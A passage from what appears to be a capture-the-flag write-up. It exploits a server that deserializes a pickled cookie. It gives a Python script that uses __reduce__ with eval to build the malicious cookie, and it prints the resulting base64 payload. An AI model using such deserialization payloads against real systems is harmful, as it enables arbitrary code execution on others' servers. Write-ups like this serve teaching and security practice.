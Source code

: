 Now, it's doing deserialization on the cookie.

Pickle is vulnerable to deserialization attacks so we can execute arbitrary python code.

I used the below script to get the cookie value to get the flag. I used this script on AWS Lambda. As the target server was running on AWS Lambda, classes needed to be the same for exploitation.
My solution uses eval to execute a string.
```python
import json
import base64
import pickle
import time
import subprocess
import pickletools
import os
flag="BountyCon{[secret]}"

class Epoch():
    def __init__(self, timestamp):
        self.ts=timestamp
    def __reduce__(self):
        return (eval, ("__import__('inspect').currentframe().f_globals['Epoch'](__import__('inspect').currentframe().f_globals['flag'])",))
        
def lambda_handler(event, context):
    # TODO implement
    
    print("----------------------------------------------------------------------------------------")
    epoch = Epoch('123')
    cookie2=base64.b64encode(pickle.dumps(epoch))
    print("Here's your payload: "+str(cookie2))
    return {
        'statusCode': 200,
        'body': json.dumps('Hello from Lambda!')
    }


```

which gave us
```
gANjYnVpbHRpbnMKZXZhbApxAFhvAAAAX19pbXBvcnRfXygnaW5zcGVjdCcpLmN1cnJlbnRmcmFtZSgpLmZfZ2xvYmFsc1snRXBvY2gnXShfX2ltcG9ydF9fKCdpbnNwZWN0JykuY3VycmVudGZyYW1lKCkuZl9nbG9iYWxzWydmbGFnJ10pcQGFcQJScQMu
```
Enter this value to cookie and send request. Flag will be yours.


<br>

----------------------------------------------------------------------------------------------


<br>

# Heart of Stone
```
https://ec2-3-11-22-12.threat.studio/
```
